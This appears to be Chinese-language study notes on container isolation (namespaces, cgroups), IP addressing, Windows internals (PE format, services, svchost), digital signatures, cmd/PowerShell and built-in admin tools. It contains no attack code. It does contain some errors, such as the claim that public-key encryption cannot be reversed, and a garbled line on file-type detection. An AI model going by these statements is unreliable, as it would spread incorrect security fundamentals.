**容器 = namespace（隔离） + cgroup（限制）**

**namespace（命名空间）是 Linux 内核提供的资源隔离机制**，让进程“以为”自己独占某些系统资源。

七种 namespace

| Namespace  | 隔离的资源                       | 容器中的作用                           |
| :--------- | :------------------------------- | :------------------------------------- |
| **PID**    | 进程 ID                          | 容器内进程看到自己的 PID 从 1 开始     |
| **NET**    | 网络设备、端口、路由表           | 每个容器有独立的网络栈（自己的 IP）    |
| **MNT**    | 挂载点                           | 容器有自己的文件系统视图               |
| **UTS**    | 主机名和域名                     | 容器可以有自己的 hostname              |
| **IPC**    | 进程间通信（共享内存、消息队列） | 隔离 System V IPC                      |
| **USER**   | 用户 ID                          | 容器内的 root 可映射为宿主机的普通用户 |
| **CGROUP** | cgroup 视图                      | 让容器看到自己的 cgroup 层次           |

**cgroup（控制组）是 Linux 内核提供的资源限制机制**，可以限制进程组的 CPU、内存、磁盘、网络等资源使用。

cgroup 子系统

| 子系统      | 作用         | 限制示例               |
| :---------- | :----------- | :--------------------- |
| **cpu**     | CPU 使用率   | 限制只能用 0.5 个核心  |
| **cpuset**  | CPU 核心绑定 | 只能用 CPU 0 和 1      |
| **memory**  | 内存使用     | 限制最大 512MB         |
| **blkio**   | 磁盘 I/O     | 限制读写速度 10MB/s    |
| **net_cls** | 网络流量分类 | 标记数据包用于流量控制 |
| **pids**    | 进程数       | 限制最多 100 个进程    |
| **device**  | 设备访问     | 禁止访问 `/dev/sda`    |

```text
容器启动流程：
1. 创建新的 namespace（隔离）
   - 新 PID namespace：进程 ID 从 1 开始
   - 新 NET namespace：独立网络栈
   - 新 MNT namespace：独立文件系统
   - ...

2. 配置 cgroup（限制）
   - 设置 CPU 配额
   - 设置内存上限
   - 设置磁盘 I/O 限制
   - ...

3. 切换根目录（pivot_root / chroot）
   - 将容器的文件系统设置为镜像（如 alpine）
   - 容器看不到宿主机的文件

4. 执行容器的入口进程（如 /bin/sh）
   - 在隔离+限制的环境中运行
```



人话：尽可能少占用电脑资源的虚拟机。

### 1.9 网络配置

**IP 地址是网络设备的“门牌号”**，用于在网络中唯一标识一台设备。

| 方面     | 说明                                                         |
| :------- | :----------------------------------------------------------- |
| **全称** | Internet Protocol（互联网协议）地址                          |
| **本质** | 一串数字，用于标识网络中的设备                               |
| **长度** | IPv4：32 位（4 字节）；IPv6：128 位（16 字节）               |
| **形式** | IPv4：`192.168.1.100`（点分十进制） IPv6：`2001:db8::1`（十六进制，冒号分隔） |
| **分配** | 由网络管理员或 DHCP 服务器自动分配                           |

IP 地址由两部分组成：**网络号** + **主机号**

```text
192.168.1.100/24
├───────┘  │  │
│          │  └── 子网掩码：/24 = 255.255.255.0
│          └───── 主机号（最后 8 位：100）
└──────────────── 网络号（前 24 位：192.168.1）
```

| 部分       | 作用                 | 类比             |
| :--------- | :------------------- | :--------------- |
| **网络号** | 标识设备所在的网络   | 街道名（长安街） |
| **主机号** | 标识网络中的具体设备 | 门牌号（100 号） |

**子网掩码**：告诉计算机哪部分是网络号，哪部分是主机号。

```text
IP 地址：     192.168.1.100  → 11000000.10101000.00000001.01100100
子网掩码：    255.255.255.0  → 11111111.11111111.11111111.00000000
网络号：      192.168.1.0    → 11000000.10101000.00000001.00000000
主机号：                   100 → 01100100
```

IPv4 与 IPv6

| 对比项       | IPv4                              | IPv6                                   |
| :----------- | :-------------------------------- | :------------------------------------- |
| **位数**     | 32 位                             | 128 位                                 |
| **数量**     | 约 43 亿                          | 2^128（地球上每平方米可分配 10^26 个） |
| **形式**     | 点分十进制：`192.168.1.1`         | 十六进制：`2001:db8::1`                |
| **特殊地址** | 127.0.0.1（localhost）            | ::1（localhost）                       |
| **私有地址** | 10.x.x.x、172.16.x.x、192.168.x.x | fc00::/7                               |
| **现状**     | 正在耗尽，仍广泛使用              | 逐步推广，公网核心已支持               |

- IPv4 地址总数约 43 亿，但全球设备远超此数。
- NAT 技术虽缓解了短缺，但增加了复杂性。
- IPv6 提供几乎无限的地址空间。

**IPv4 地址分类**

1\. 公网地址 vs 私有地址

| 类型         | 范围                                    | 说明                                 |
| :----------- | :-------------------------------------- | :----------------------------------- |
| **公网地址** | 除私有地址外的所有                      | 全球唯一，可直接访问互联网           |
| **私有地址** | 10.0.0.0/8 172.16.0.0/12 192.168.0.0/16 | 局域网使用，不能直接上公网（需 NAT） |

2\. 特殊地址

| 地址              | 作用                         | 示例                     |
| :---------------- | :--------------------------- | :----------------------- |
| `127.0.0.1`       | 本机回环地址（localhost）    | 测试本机网络服务         |
| `0.0.0.0`         | 表示“所有地址”或“默认路由”   | 服务器监听所有网卡       |
| `255.255.255.255` | 广播地址                     | 向同一网络所有设备发送   |
| `169.254.x.x`     | DHCP 失败时自动分配（APIPA） | 无法获取 IP 时的临时地址 |

3\. IP操作命令

| 操作        | Windows                   | Linux                  |
| :---------- | :------------------------ | :--------------------- |
| 查看本机 IP | `ipconfig`                | `ip addr` / `ifconfig` |
| 查看公网 IP | 访问 `ifconfig.me` 等网站 | 同左                   |
| 测试连通    | `ping 8.8.8.8`            | `ping 8.8.8.8`         |
| 查看路由    | `route print`             | `ip route`             |

------

## 第二部分：Windows 系统架构

### 2.1 总体结构

Windows 操作系统采用**分层 + 客户端/服务器**架构，核心设计目标是**可移植性、安全性、稳定性**。



- 用户态：应用程序、服务、进程、DLL、子系统（CSRSS、Win32）。
- 内核态：执行体、内核、ntoskrnl.exe、HAL、驱动.sys。
- **层次化设计好处**：上层不依赖下层实现细节，便于修改和移植。

### 2.2 核心DLL

1\. kernel32.dll / kernelbase.dll：常见API入口

- 提供额外的功能：错误码转换、参数验证、用户态缓冲。

2\. ntdll.dll：系统调用存根

- 所有用户态程序进入内核的**必经之路。**
- 导出 `NtXXX` 和 `ZwXXX` 系列函数（实际指向同一代码）。
- 做的事情：
  - 把系统调用号放入 `eax。`。
  - 把参数放入寄存器（`rcx`, `rdx`, `r8`, `r9` 等）。
  - 执行 `syscall` 指令。

3\. user32.dll / gdi32.dll：GUI相关

- **窗口管理**（user32）：消息循环、窗口创建、输入处理。
- **图形设备接口**（gdi32）：绘图、字体、打印。

4\. 内核（Kernel）

- 提供最基础的服务：线程调度、中断/异常处理、同步对象（互斥体、事件）。

5\. 硬件抽象层（HAL）

- 屏蔽 CPU、中断控制器、主板的差异

### 2.3 可执行文件格式：PE

**PE（Portable Executable）是 Windows 操作系统使用的可执行文件格式**，用于 `.exe`、`.dll`、`.sys`（驱动）、`.cpl`（控制面板）、`.ocx` 等文件。

- **“Portable”含义**：同一格式可用于 x86、x64、ARM 等多种 CPU 架构
- **加载器角色**：Windows 加载器读取 PE 文件，将其映射到进程的虚拟地址空间，然后执行入口点



2.3.1 关键结构：DOS头、NT头、File头

- DOS Header（IMAGE_DOS_HEADER）

  - DOS相当于现在的CMD。加这个头是为了兼容老程序。

  - **保留 DOS 头**：如果在 DOS 环境下运行 Windows 程序，DOS Stub 会打印 "This program cannot be run in DOS mode" 然后退出，而不是直接崩溃。

- NT Headers（IMAGE_NT_HEADERS）

  - NT是操作系统内核。

- **File Header**

  - 告诉操作系统或程序这个文件是什么。
  - 包含：文件类型、版本号、长度、编码、特殊参数等。
  - Windows系统判断文件会看文件头，Linux只看文件头。
  - 典型例子：GIF文件头：47 49 46 38 39 61（GIF89a）。

- **Optional Header（可选头）**

  - “可选头” 是PE文件的核心头部，内部都是关键信息。

  - | 字段                | 含义                                              |
    | :------------------ | :------------------------------------------------ |
    | Magic               | `0x20b` (PE32+ for 64位), `0x10b` (PE32 for 32位) |
    | AddressOfEntryPoint | **入口点 RVA**（相对虚拟地址）                    |
    | ImageBase           | 首选加载地址（x64 通常是 `0x140000000`）          |
    | SectionAlignment    | 内存中节的对其大小（通常是 0x1000 = 4KB）         |
    | FileAlignment       | 文件中节的对其大小（通常是 0x200 = 512 字节）     |
    | SizeOfImage         | 整个 PE 在内存中占用的虚拟地址空间大小            |
    | SizeOfHeaders       | 所有头 + 节表的总大小                             |
    | Subsystem           | 子系统（`2` = GUI, `3` = CUI 控制台）             |
    | NumberOfRvaAndSizes | 数据目录数量（固定 16）                           |
    | DataDirectory[16]   | 16 个数据目录（导入表、导出表、重定位表等）       |

- **节表**

  - 是Windows系统可执行文件的一个**目录**。用来告诉操作系统这个文件的各个部分分别在哪里，有多大，有什么权限。

  - | 节名     | 内容                      | Characteristics                         |
    | :------- | :------------------------ | :-------------------------------------- |
    | `.text`  | 可执行代码                | `0x60000020` (代码, 可读, 可执行)       |
    | `.data`  | 已初始化全局变量          | `0xC0000040` (已初始化数据, 可读, 可写) |
    | `.rdata` | 只读数据（字符串常量）    | `0x40000040` (只读, 已初始化)           |
    | `.idata` | 导入表（可合并到 .rdata） | `0xC0000040`                            |
    | `.rsrc`  | 资源（图标、版本信息）    | `0x40000040`                            |
    | `.reloc` | 重定位信息（ASLR）        | `0x42000040` (只读, 已初始化, 可丢弃)   |

2.3.2 入口点、导入表、导出表、重定位表

- **导入表（Import Table）**
  - **作用**：告诉加载器，这个程序需要哪些 DLL 中的哪些函数。



**加载过程**：

1\. 加载器读取导入表，找到 `kernel32.dll`
2\. 加载 `kernel32.dll` 到进程地址空间（如果还没加载）
3\. 遍历 INT，查找每个函数的地址
4\. 将函数地址写入 IAT（Import Address Table）
5\. 程序调用函数时，实际上是通过 IAT 跳转

- **导出表（Export Table）**

**作用**：DLL 告诉加载器它提供了哪些函数供其他程序调用。

```c
typedef struct _IMAGE_EXPORT_DIRECTORY {
    DWORD Characteristics;
    DWORD TimeDateStamp;
    WORD  MajorVersion;
    WORD  MinorVersion;
    DWORD Name;               // DLL 名字的 RVA
    DWORD Base;               // 序号基数
    DWORD NumberOfFunctions;  // 函数数量
    DWORD NumberOfNames;      // 有名字的函数数量
    DWORD AddressOfFunctions; // 函数地址表 RVA
    DWORD AddressOfNames;     // 函数名表 RVA
    DWORD AddressOfNameOrdinals; // 序号表 RVA
} IMAGE_EXPORT_DIRECTORY;
```

**典型导出**：`kernel32.dll` 导出 `CreateFileA`、`ReadFile`、`WriteFile` 等。

- **重定位表（Base Relocation Table）**

**作用**：当 PE 文件无法加载到 `ImageBase` 时，需要修正硬编码的地址。

### 2.4 数字签名（Digital Signature）

**数字签名就像文件的一个“防伪印章”或“密封条”。**

| 问题           | 没有签名时                                                   | 有签名时                                                |
| :------------- | :----------------------------------------------------------- | :------------------------------------------------------ |
| **钓鱼攻击**   | 你下载了一个“FlashPlayerSetup.exe”，以为是Adobe官方的，其实是病毒 | 病毒无法伪造Adobe的数字签名 → Windows会警告“发布者未知” |
| **文件被篡改** | 黑客在你下载的文件里插入了恶意代码                           | 签名校验失败 → Windows提示“文件已被修改”                |
| **中间人攻击** | 下载时被劫持，换成了恶意文件                                 | 签名对不上，系统拒绝运行                                |

**技术原理**

| 概念     | 比喻                             | 特点               |
| :------- | :------------------------------- | :----------------- |
| **私钥** | 你手里的唯一印章（只有你有）     | 保密，用来**盖章** |
| **公钥** | 银行手里的验证手册（大家都能看） | 公开，用来**验章** |

**核心关系**：用私钥加密的数据，只能用对应的公钥解密。反过来不行。

**签名的过程**

```text
原始文件（如 notepad.exe）
    ↓
【第一步：计算指纹】用哈希算法（如SHA-256）计算文件的"摘要"（一串固定长度的数字）
    → 文件内容变一点点，指纹就完全不同
    ↓
【第二步：加密指纹】用微软的私钥加密这个指纹
    → 得到"数字签名"（一串乱码般的二进制数据）
    ↓
【第三步：打包】把数字签名附加到文件上（或单独存为.cat文件）
    → 已签名的文件
```

**验证的过程**

```text
已签名的文件
    ↓
【第一步：解包】从文件中提取出"数字签名"
    ↓
【第二步：解密】用微软的公钥解密签名 → 得到"原始指纹"
    ↓
【第三步：重算】用同样的哈希算法重新计算当前文件的指纹 → 得到"当前指纹"
    ↓
【第四步：对比】
    ├── 两个指纹相同 → 文件未被篡改，发布者身份已验证 ✅
    └── 两个指纹不同 → 文件被改过，或签名伪造 ❌
```

Windows 中验证数字签名：右键 → 属性 → 数字签名

**哈希值验证**

**哈希值可以理解为文件的“身份证号”。**

| 用途               | 说明                           | 实际例子                  |
| :----------------- | :----------------------------- | :------------------------ |
| **下载文件校验**   | 确保下载的文件和官网发布的一致 | 下载 Linux 镜像后验证哈希 |
| **文件完整性监控** | 检测系统文件是否被篡改         | 杀毒软件、系统文件保护    |
| **数据去重**       | 相同内容的文件只存一份         | 网盘、Git 底层            |
| **密码存储**       | 不存明文密码，只存哈希值       | 网站数据库（加盐后）      |
| **恶意软件识别**   | 用哈希值作为病毒的特征标识     | 杀毒软件病毒库            |

**哈希值不能防冒充**（谁都能算哈希）。

**关系**：数字签名 = 哈希值 + 私钥加密

### 2.5 系统服务与进程

**系统服务（Service）是 Windows 中在后台运行的应用程序**。在任务管理器中可以看到。

典型服务举例：

| 服务名称    | 显示名                               | 功能           |
| :---------- | :----------------------------------- | :------------- |
| `WinDefend` | Microsoft Defender Antivirus Service | 实时病毒防护   |
| `Spooler`   | Print Spooler                        | 打印队列管理   |
| `W3SVC`     | World Wide Web Publishing Service    | IIS Web 服务器 |
| `SSHD`      | OpenSSH SSH Server                   | SSH 远程登录   |

2.5.1 **服务控制管理器（SCM）**

**SCM 进程**：`services.exe`（运行在 `%SystemRoot%\System32\services.exe`），`services.msc`（SCM图形化的版本）

负责：

- 维护已安装服务的数据库（注册表 `HKLM\SYSTEM\CurrentControlSet\Services`）
- 在系统启动时按依赖顺序启动服务
- 接收服务启动/停止/暂停/恢复等控制请求
- 监视正在运行的服务，在服务意外退出时采取动作（重启、记录等）

每个服务由以下三部分构成：

1\. 注册表项（服务定义）

```text
HKLM\SYSTEM\CurrentControlSet\Services\<ServiceName>
    ├── DisplayName    (显示名称)
    ├── ImagePath      (可执行文件路径)
    ├── Start          (启动类型：2=自动,3=手动,4=禁用)
    ├── Type           (1=内核驱动, 0x10=独立进程, 0x20=共享进程)
    ├── ObjectName     (运行账户：LocalSystem, NT AUTHORITY\NetworkService)
    ├── ErrorControl   (出错处理：1=记录, 2=重启系统)
    └── DependOnService (依赖的其他服务)
```

2\. 服务可执行文件（`.exe`）

- 通常是一个独立 EXE，内部实现服务主循环
- 必须调用 `StartServiceCtrlDispatcher` 连接到 SCM

3\. SCM 数据库条目

SCM 启动时将注册表中的服务信息加载到内存中，用于快速查询和控制。

2.5.2 **服务的启动类型**

| Start 值 | 名称                   | 含义                   |
| :------- | :--------------------- | :--------------------- |
| 0        | `SERVICE_BOOT_START`   | 引导启动（仅内核驱动） |
| 1        | `SERVICE_SYSTEM_START` | 系统启动时（内核驱动） |
| 2        | `SERVICE_AUTO_START`   | 自动启动（登录前）     |
| 3        | `SERVICE_DEMAND_START` | 手动启动               |
| 4        | `SERVICE_DISABLED`     | 禁用                   |

2.5.3 **服务的宿主进程（`svchost.exe`）**

**`svchost.exe`（Service Host）是一个通用服务宿主进程**，用于承载多个**DLL 实现的服务**，以减少进程数量。

- 位置：`%SystemRoot%\System32\svchost.exe`
- 每个 svchost 进程启动时，从注册表读取需要加载的服务 DLL 列表
- 一个 svchost 可以托管多个服务（相同安全上下文的服务组）

```text
Windows 启动
    ↓
services.exe (SCM)
    ↓
根据注册表启动"自动启动"的服务
    ├── 独立进程型服务 → myapp.exe
    ├── 共享宿主型服务 → svchost.exe
    │       ├── 托管：服务A.dll
    │       ├── 托管：服务B.dll
    │       └── 托管：服务C.dll
    └── 内核驱动型服务 → driver.sys
```

> 问：为什么很多 Windows 恶意软件选择把自己注册为服务，而不是添加到“启动”文件夹？

**答**：服务的启动早于用户登录，可以在用户登录前运行，权限更高（可配置为 SYSTEM），并且更难被普通用户发现和删除。

### 2.6 控制面板的本质

**控制面板（Control Panel）是 Windows 提供的一个统一界面**，用于访问和修改系统设置（硬件、软件、网络、用户账户等）。**本质上**它不是单一程序，而是一个**外壳扩展（Shell Extension）** 的框架，由多个独立组件（`.cpl` 文件）拼合而成。

```text
用户双击“控制面板”或运行 control.exe
    ↓
control.exe 启动
    ↓
读取注册表，枚举所有注册的 .cpl 项
    ↓
为每个 .cpl 创建图标/入口
    ↓
用户双击某个图标 → control.exe 调用对应的 .cpl
```

| 组件          | 路径                                | 作用                    |
| :------------ | :---------------------------------- | :---------------------- |
| `control.exe` | `%SystemRoot%\System32\control.exe` | 控制面板宿主进程        |
| `.cpl` 文件   | `%SystemRoot%\System32\*.cpl`       | 各个设置项的实现（DLL） |
| `shell32.dll` | `%SystemRoot%\System32\shell32.dll` | 提供文件夹视图、图标    |

- **.cpl文件是特殊的DLL（动态链接库）**，只是扩展名从 `.dll` 改为 `.cpl`。

### 2.7 cmd与PowerShell

2.7.1 **cmd（命令提示符）**

命令提示符是 Windows 系统里一个纯键盘操作、黑底白字的界面，用来敲命令指挥电脑干活。

一句话定义：

命令提示符是 Windows 的“文字命令输入窗口”——你打字告诉电脑做什么，电脑执行完后也打字告诉你结果。

1\. 更快（熟练后）

- 图形界面：移动鼠标 → 点右键 → 找菜单 → 点左键
- 命令提示符：敲一行字，回车

2\. 批量操作

```batch
:: 把当前文件夹所有.txt文件改名为.bak
ren *.txt *.bak
```

图形界面要一个一个改，几百个文件改到天亮。

3\. 自动化（脚本）

把一堆命令写进 .bat 文件，双击就能自动执行。

4\. 图形界面坏了的时候

系统崩了只剩黑屏，命令提示符可能是你唯一的救命稻草。

5\. 程序员/运维必备

服务器通常没有图形界面（为了省资源），全靠命令操作。

**cmd（Command Prompt）是 Windows 的传统命令行解释器**，继承自 MS-DOS 的 `command.com`。

- 可执行文件：`%SystemRoot%\System32\cmd.exe`
- 核心功能：执行命令、批处理脚本（`.bat`）

```text
用户在 cmd 中输入 "ping 8.8.8.8"
    ↓
cmd 解析命令行（拆分命令名和参数）
    ↓
检查是否为内部命令（ping？不是）
    ↓
搜索 %PATH% 环境变量中的目录，找 ping.exe
    ├── C:\Windows\System32\ping.exe → 找到
    └── 未找到 → "不是内部或外部命令"
    ↓
调用 CreateProcess() 创建新进程执行 ping.exe
    ↓
等待 ping.exe 结束，显示输出
    ↓
回到提示符，等待下一条命令
```

**特点**：语法原始，功能弱，但有历史兼容性。

2.7.2 **PowerShell**

**PowerShell 是微软推出的现代化命令行 shell 和脚本语言**，基于 .NET Framework/.NET Core。

- 可执行文件：`%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe`（旧版）或 `pwsh.exe`（PowerShell 7）

- 核心特性：**面向对象**（传递对象而非文本）、与 .NET 深度集成

**核心区别：cmd管道是传递文本，而PowerShell管道传递对象**

```bash
ipconfig | findstr "IPv4"
# ipconfig 输出文本 → findstr 搜索文本
```

```powershell
Get-Process | Where-Object { $_.CPU -gt 10 } | Sort-Object CPU -Descending
# Get-Process 输出 Process 对象（有 CPU、Name、Id 等属性）
# Where-Object 过滤对象（CPU > 10）
# Sort-Object 排序对象
```

简单命令用cmd，复制杂命令用PowerShell。

### 2.8 notepad.exe（记事本）

- 可执行文件：`%SystemRoot%\System32\notepad.exe`

记事本虽然功能简单，但它**用到了几乎所有 Windows 核心机制**：

| 机制     | 记事本中的体现                                   |
| :------- | :----------------------------------------------- |
| 进程创建 | `notepad.exe` 本身是一个进程                     |
| 线程     | 主线程 + 可能的辅助线程（如定时保存）            |
| 虚拟内存 | 加载到虚拟地址空间（通常 `0x7FF7...` 基址）      |
| DLL 加载 | 导入 `kernel32`、`user32`、`comctl32` 等         |
| 消息循环 | 处理键盘输入、菜单点击、窗口重绘                 |
| 文件 I/O | `OpenFile`、`ReadFile`、`WriteFile`              |
| GDI 绘图 | 绘制文本、光标、滚动条                           |
| 剪贴板   | 复制/粘贴（`OpenClipboard`、`SetClipboardData`） |
| 注册表   | 记住上次的查找替换字符串                         |
| 资源     | 菜单、快捷键、对话框、图标                       |

由于记事本过于简洁，出现了很多好用的现代替代品。

| 程序             | 特点                   | 与记事本的关系         |
| :--------------- | :--------------------- | :--------------------- |
| 记事本           | 极简，纯文本，启动快   | 基准                   |
| Notepad++        | 语法高亮，标签页，插件 | 第三方增强             |
| VS Code          | 功能强大，扩展丰富     | 现代编辑器             |
| EmEditor         | 性能怪兽               | 打开超大文件不卡顿     |
| Windows Terminal | 终端模拟器             | 不同用途               |
| WordPad          | 支持富文本（.rtf）     | 同一目录下的另一个程序 |

### 2.9 eventvwr.msc（事件查看器）

**事件查看器是 Windows 内置的“日志系统”，记录系统和应用程序发生的各种重要事件，帮助诊断问题、排查故障、追踪安全异常。**

| 事件类型          | 例子                         |
| :---------------- | :--------------------------- |
| **系统错误**      | 硬盘坏道、驱动崩溃、蓝屏前兆 |
| **程序崩溃**      | 记事本无响应、Chrome 闪退    |
| **安全事件**      | 登录失败、权限变更、账户创建 |
| **警告**          | 磁盘空间不足、服务启动慢     |
| **信息**          | 服务启动成功、系统更新安装   |
| **审核成功/失败** | 用户登录成功/失败            |

打开方式：任务栏搜索“事件查看器”，按 `Win + R`，输入 `eventvwr.msc`，回车。或者 `Win + X` 再按 `V`。

### 2.10 devmgmt.msc（设备管理器）

**设备管理器是 Windows 中管理和配置所有硬件设备的工具**，用于查看、启用、禁用、更新、卸载**硬件**及其**驱动**程序。

打开方式：任务栏搜索“设备管理器”，按 `Win + R`，输入 `devmgmt.msc`，回车。或者 `Win + X` 再按 `M`。再或者在控制面板中选择硬件和声音 → 设备管理器。

| 图标         | 含义                       |
| :----------- | :------------------------- |
| 🔍 放大镜     | 设备正在被扫描（临时）     |
| ⚠️ 黄色感叹号 | 驱动程序问题或设备冲突     |
| 🚫 向下箭头   | 设备已禁用                 |
| ❌ 红叉       | 设备不存在或已卸载（残留） |
| ℹ️ 信息图标   | 设备被限制（如电源管理）   |

1\. 查看硬件状态

- 正常设备：显示设备名称，无特殊图标。
- 问题设备：黄色感叹号，表示驱动未安装或出错。
- 禁用设备：灰色 + 向下箭头

2\. 更新驱动程序

右键设备 → “更新驱动程序” → 选择：

- **自动搜索驱动程序**：Windows 在线搜索并安装。
- **浏览我的电脑以查找驱动程序**：手动指定驱动文件夹或 .inf 文件。

3\. 退驱动程序

如果新驱动导致问题，可以回退到旧版本（需要驱动更新过）：
右键设备 → 属性 → 驱动程序 → 回退驱动程序

4\. 禁用/启用设备

右键设备 → “禁用设备” / “启用设备”

用于排查硬件冲突。

5\. 卸载设备

右键设备 → “卸载设备”

**注意**：卸载后，下次重启或扫描硬件改动时会重新检测到，可能自动重装驱动。

### 2.11 taskmgr（任务管理器）

**任务管理器是 Windows 内置的系统监控和管理工具**，用于查看正在运行的进程、系统性能、启动项、服务、用户会话等，并可以结束无响应的程序、分析系统瓶颈。

打开方式：任务栏搜索“任务管理器”，`Ctrl + Shift + Esc`（最快），或按 `Win + R`，输入 `taskmgr`，回车。或者 `Win + X` 再按 `T`。

打开任务管理器时，默认显示**简洁模式**，只列出正在运行的应用程序，为了快速结束无响应的程序。（选中 → “结束任务”）

点击左侧弹窗的“详细信息”切换到**完整模式**。

**常用操作**：

- 结束任务：选中进程 → 右键 → “结束任务”（强制终止，可能丢失未保存数据）
- 创建转储文件：右键 → “创建转储文件”，生成 `.dmp` 供调试分析
- 打开文件所在位置：右键 → “打开文件所在位置”，定位 .exe 路径
- 查看属性：右键 → “属性”，查看数字签名等
- 搜索联机：右键 → “联机搜索”，用 Bing 搜索进程名
- 转到详细信息：右键 → “转到详细信息”，跳转到详细信息选项卡

**“无响应”状态**：

- 进程标记为“无响应” = 程序的窗口消息循环被阻塞
- 不一定崩溃，可能是在等待 I/O（磁盘、网络）
- 可以等待，也可以结束任务

**启动应用中包含开机自启动**

**任务管理器看不到的信息**：

| 信息                    | 需要用什么看                        |
| :---------------------- | :---------------------------------- |
| 进程的详细命令行参数    | Process Explorer（Sysinternals）    |
| 进程打开的 TCP/UDP 端口 | netstat、TCPView、资源监视器        |
| 进程加载的 DLL 列表     | Process Explorer、Process Hacker    |
| 磁盘 I/O 按进程细分     | 资源监视器 → 磁盘选项卡             |
| 网络连接按进程细分      | 资源监视器 → 网络选项卡             |
